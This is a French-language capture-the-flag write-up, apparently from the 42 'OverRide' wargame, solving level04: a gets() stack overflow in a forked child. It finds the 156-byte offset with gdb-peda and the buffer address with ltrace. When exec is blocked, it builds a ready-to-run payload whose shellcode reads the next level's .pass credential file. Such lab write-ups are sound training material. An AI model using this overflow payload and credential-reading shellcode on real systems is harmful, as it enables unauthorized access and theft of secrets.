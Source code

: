 # Level 04

- Dans le child il y a un gets donc sans limite
- On recupere le offset
<pre>
$> gdb ./level04 
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA')
Starting program: /home/alarm/42/override/level04/Ressources/level04 < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA')
[----------------------------------registers-----------------------------------]
ESP: 0xffffd5a0 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
<strong>EIP: 0x71414154 ('TAAq')</strong>
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x71414154
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x71414154 in ?? ()
gdb-peda$ pattern offset TAAq
<strong>TAAq found at offset: 156</strong>
</pre>

- On recupere l'addresse de notre futur shellcode
<pre>
$> echo a | ltrace -f ./level04 1>&-
[pid 1737] \_\_libc_start_main(0x80486c8, 1, -10540, 0x8048830, 0x80488a0 <unfinished ...>
[pid 1737] signal(14, 0x0804868f)                                      = NULL
[pid 1737] alarm(60)                                                   = 0
[pid 1737] fork()                                                      = 1738
[pid 1737] wait(0xffffd59c <unfinished ...>
[pid 1738] <... fork resumed> )                                        = 0
[pid 1738] prctl(1, 1, 0, 0xf7e2fe44, 2944)                            = 0
[pid 1738] ptrace(0, 0, 0, 0, 2944)                                    = -1
[pid 1738] puts("Give me some shellcode, k")                           = 26
<strong>[pid 1738] gets(-10848, 0, 0, 0, 2944)                                 = -10848</strong>
[pid 1738] +++ exited (status 0) +++
[pid 1737] --- SIGCHLD (Child exited) ---
[pid 1737] <... wait resumed> )                                        = 1738
[pid 1737] puts("child is exiting...")                                 = 20
[pid 1737] +++ exited (status 0) +++
$> printf '%x\n' -10848
ffffffff<strong>ffffd5a0</strong>
</pre>

- Quand on met un shellcode basique avec le programme nous dit que les exec sont bloquer
```
level04@OverRide:~$ (python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (156 - 21) + struct.pack('<I', 0xffffd5a0))") | ./level04 
Give me some shellcode, k
no exec() for you
```

- Donc on crée un shellcode qui print direct le fichier .pass
<pre>
>>> pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass'))
b'jsh.pashl05/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80'
>>> len('jsh.pashl05/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80')
62
</pre>

- Assemblé cela donne cette commande
```
(python -c "import struct; print('jsh.pashl05/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80' + 'A' * (156 - 62) + struct.pack('<I', 0xffffd5a0))") | ./level04
```
